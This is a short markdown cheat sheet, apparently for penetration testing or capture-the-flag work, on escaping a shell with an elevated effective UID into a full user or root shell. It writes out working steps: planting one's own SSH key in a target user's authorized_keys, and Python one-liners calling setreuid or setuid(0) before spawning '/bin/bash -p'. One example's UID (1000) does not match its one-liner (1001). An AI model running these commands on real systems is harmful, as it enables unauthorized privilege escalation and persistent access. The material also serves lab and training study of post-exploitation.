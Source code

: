 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape

current setup:

  euid user: 1000(Eve)

  uid user: 33 (www-data)

rough idea how it works executing step by step:

$python

\>\>import os

\>\>os.setreuid(1000,1000)	#setreuid(ruid,euid)

\>\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid

1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:

#python

\>\>import os

\>\>os.setuid(0)

\>\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

